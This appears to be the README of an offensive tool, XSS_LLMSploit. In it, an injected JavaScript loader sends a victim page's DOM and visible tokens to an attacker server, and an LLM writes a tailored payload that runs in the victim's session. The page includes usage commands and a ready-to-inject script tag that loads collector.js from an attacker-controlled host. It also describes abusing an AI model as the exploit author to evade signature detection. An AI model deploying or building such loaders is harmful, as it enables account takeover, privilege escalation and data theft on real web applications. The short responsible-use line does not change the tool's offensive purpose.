

# XSS_LLMSploit

> Client-side attack tool in which a Large Language Model is abused as a **runtime payload generator**, turning a static injected loader into an adaptive, self-tailoring exploit.


---
## Overview

Classic client-side injection (XSS, malicious dependency, compromised CDN) ships a **fixed** payload: whatever the attacker wrote ahead of time. Signatures, CSP, and DOM-diffing detection all benefit from that determinism.

**XSS_LLMSploit** breaks that assumption. The injected code is just a thin **loader**. The actual exploit is generated *on demand* by an LLM, **after** the loader has read the live DOM of the specific victim page. The payload that runs is shaped to the target it lands on — different per app, per session, potentially per page load.

The result is an attack chain where:

- the executed payload is unique and context-aware,
- and the heavy lifting — understanding the app and writing the exploit — is outsourced to a model.

---

## Proof of Concept

A controlled demonstration against a local, purpose-built admin console. The operator issues a single natural-language objective — *"Add a few users starting with `XSS_LLMSPLOIT`"* — and the orchestration server has the model generate JS tailored to the live page. Moments later the victim panel shows freshly injected accounts, **including one with Administrator role**.

Notably, the operator never inspected the admin console's source beforehand. The panel's markup, form selectors, and API shape were unknown going in — the model derived all of it from the live DOM harvested at runtime and wrote the exploit against what it found.


> Recorded on `localhost` against a disposable target. The clip illustrates **impact** — natural-language intent translated into an executed, app-specific action.

---

## Attack Flow



| #   | Step                               | What happens                                                                                                                                                            |
| --- | ---------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1   | **inject malicious JS**            | Attacker lands a small loader in the victim's app — via stored/reflected/DOM XSS, a poisoned npm dependency, a compromised CDN asset, or a malicious browser extension. |
| 2   | **script fetched from server**     | The loader pulls additional stager logic from attacker-controlled infrastructure at runtime, keeping the injected footprint minimal.                                    |
| 3   | **exfiltrate page HTML + JS**      | The stager harvests the live page context — DOM, inline scripts, framework hints, tokens visible to JS, endpoint structure — and ships it to the attacker's server.     |
| 4   | **sends files with user's prompt** | The attacker's server wraps the harvested context in a prompt and forwards it to an LLM: *"given this app, produce JS that does X."*                                    |
| 5   | **returns JavaScript payload**     | The LLM returns a payload tailored to *this* application's actual structure rather than a generic template.                                                             |
| 6   | **executes action**                | The loader evaluates the returned JS in the victim's origin, completing the attacker's objective (data theft, session abuse, lateral action via the app's own APIs).    |

The key inversion: **steps 4–5 move exploit authoring from build time to run time.** The model sees the real target before a single line of the final payload exists — which also means the attacker needs **no advance knowledge of the target's internals**. There is nothing to reverse-engineer up front: discovery and exploitation happen in the same runtime round-trip.

---

## Why It Matters

**Adaptive by construction.** Picture an attacker who has never seen the moderator/admin panel's source and *cannot* simply steal the session cookie — it carries the `HttpOnly` flag, so classic `document.cookie` exfiltration is dead on arrival. A static, pre-written `<script>` is stuck here twice over: it can't read the cookie, and it doesn't know the panel's selectors, forms, or endpoints to act through them. An LLM-generated payload sidesteps both walls. Written against the actual DOM and API surface it was handed, it adapts to selectors, frameworks, CSRF token placement, and app-specific flows automatically — and rather than trying to lift a cookie it can't reach, it simply drives the application *as* the already-authenticated victim, issuing privileged actions through the panel's own in-session requests with the browser attaching the `HttpOnly` cookie for it.

**No prior knowledge of the target required.** Traditional exploit development assumes the attacker has studied the target ahead of time — its DOM structure, admin/moderator panel layout, selectors, endpoints, CSRF token placement — and hardcoded a payload against it. LLM-as-a-Loader removes that prerequisite. The operator supplies only a natural-language objective; the model reads the victim's live page at runtime and authors the exploit against whatever it actually finds. The attacker never needs the panel's source code, and need not have seen the application before — reconnaissance and exploitation collapse into a single runtime step.

**Signature-resistant.** Because each payload is freshly generated, two victims rarely receive byte-identical code. Hash- and pattern-based detection that assumes a static IOC degrades sharply.

**Low injected footprint.** The thing that has to survive the injection is just a loader. The dangerous, bulky, target-specific logic never has to pass through the initial injection point — it arrives later, generated.

**Capability amortization.** The attacker no longer needs to manually reverse-engineer each target. The model does the per-target work, lowering the skill and time cost of broad, tailored campaigns.

This is best read as an **evolution of the loader/stager pattern**, not a brand-new primitive. The novelty is *where the payload comes from*, not *that there is one*.

---

## Threat Model & Preconditions

The chain only works if **step 1 succeeds**. Everything downstream assumes the attacker can already run JavaScript in the victim's origin. Concretely, at least one of these must hold:

- An **injection sink** exists and is reachable (XSS in any of its forms, unsafe `eval`/`innerHTML`, template injection rendered into the page) *OR* **supply-chain foothold** exists (malicious or compromised dependency, CDN, or build artifact).
- The origin permits **outbound fetches** to attacker infrastructure (steps 2–5 need network egress; a strict CSP `connect-src` / `script-src` breaks this).
- The origin permits **dynamic evaluation** of fetched code (step 6 needs `eval`-equivalent execution that CSP hasn't disallowed).

Remove the injection foothold *or* the egress/eval freedom and the chain collapses. The LLM is an accelerant on top of an existing compromise — it is **not** the entry point.

> **Disclaimer:** This is an alpha version of the tool and still has room for improvement.

---

## Usage

> **Disclaimer:** Responses are generated by an LLM and may take a while to return. Latency depends on factors like the application's workload and the size of the prompt being sent — larger prompts and heavier processing generally mean longer wait times. This is expected behavior, so allow some time for the model to respond before assuming something has gone wrong.

![[Pasted image 20260630160302.png]]

**Requirements:**
- Python 3.9+
- An Anthropic API key

1. **Set your API key**
```bash
export ANTHROPIC_API_KEY=sk-ant-...
```

2. **Run the server**
```bash
python3 server.py --action "<ACTION_YOU_WANT_TO_PERFORM>" --host <ATTACKER_IP>
```

3. Inject the payload into XSS sink
```HTML
<script src="http://<ATTACKER_XSS_LLMSPLOIT_SERVER_IP>/collector.js"></script>
```

---
## Scope & Responsible Use

Use it to model risk, build detections, and validate CSP/Trusted-Types posture against your own applications and authorized engagements only.

---
## License

MIT — see [`LICENSE`](LICENSE).
